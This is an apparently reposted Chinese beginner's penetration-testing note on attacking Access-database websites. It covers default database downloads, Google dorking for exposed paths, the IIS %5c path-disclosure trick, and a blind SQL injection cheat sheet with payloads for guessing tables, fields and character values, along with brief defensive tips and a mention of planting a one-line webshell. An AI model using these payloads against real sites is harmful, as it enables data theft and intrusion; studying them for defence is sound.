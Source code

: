 # 使用 Access 数据库站点的渗透思路

> 原文：[`www.pediy.com/kssd/pediy12/123920.html`](https://www.pediy.com/kssd/pediy12/123920.html)

小弟初学渗透 有什么不对的地方请高人们指教 感激不尽

1、网站使用整套的开源代码，没有更改数据库的路径 就会产生默认数据库下载。
   方法：怎样判断一个网站使用的开源版本：版权声明 源码中注释信息
   防御：修改默认数据库的文件名和路径名 可以更改为特殊少见的名字 同时使用# 防止直接下载 （但是不可靠%23 就可以解决了）或者改成 asp 后缀（但是可以使用迅雷等软件下载 然后重新命名即可  这样的数据库也可能被插入一句话木马 成为一句话的服务器危害更大）

2、对于数据库连接信息没有隐藏，导致数据库路径泄漏 即暴库
   方法：直接使用 google 关键词 （汽车、美容、旅游等等）server.mapPath(".mdb")就可以搜索出大量的可以报出数据库信息的网站，针对一个网站可能通过 robots.txt 可能查出数据库路径，（应该下载搜索的范围 User-agent: * Allow: /data/*.htm 只允许访问.htm 文件）当然这个 robots.txt 是个双刃剑 还可能报出很多有用信息 如果使用不当
   %5c 暴库：将 url 的最后一个/改成%5c 即\ url 不会转义，而 IIS 以\表示真实的目录关系，以/表示虚拟路径。当 IIS 获取某个目录时，如果碰到\符号，则将\符号之后的路径作为物理的绝对路径，而忽略\符号之前的路径信息，因此产生找不到指定文件的错误。 显示出网站数据库的路径信息。当然完整的数据库信息还要加上 %5c 之前的路径 当然暴三级目录比暴二级目录成功概率高，因为二级目录可能是虚拟目录
  conn.asp 暴库:
  <!--include file='conn.inc'-->  可以直接查看 conn.inc 文件 看到数据库连接信息 
   防御：将数据库连接信息，放到单独文件中如 conn.asp 在使用文件中 直接进入<!-- include file="conn.asp" --> 避免在源码中看到连接数据库语句信息
  处理异常信息

sql 注入
判断注入点 ' / and 1>0 / and 1<0  主要后面就是真或者假的就可以
猜表：    ?id=1 and exists(select * from 表名)  正常时有该表
猜字段:   ?id=1 and (select count(字段) from 表名)>=0  
猜长度:   ?id=1 and (select top 1 len(字段) from 表名)>*  确定长度
猜内容:   ?id=1 and (select top 1 asc(mid(字段,N,1)) from 表名)>* 确定 asc 码
            Ascii 0-9 48-57
            Ascii a-z 97-122
            Ascii A-Z 65-90
          ?id=1 and (select top 1 mid(字段,N,1) from 表名) ='g' 直接获得字符内容  如果是汉字内容 可以读取第一汉字 若使用 asc 则返回的是负值 则怎么猜解汉字 还没有解决??

枚举所有内容:
   利用条件过滤：?id=1 and (select top 1 len(字段) from 表名 where  字段 not in ('查询结果 1','查询结果 2'))>*
   利用排序操作：select top 1 字段 1 from (select top N 字段 1,id from 表名 order by id asc) T order by id desc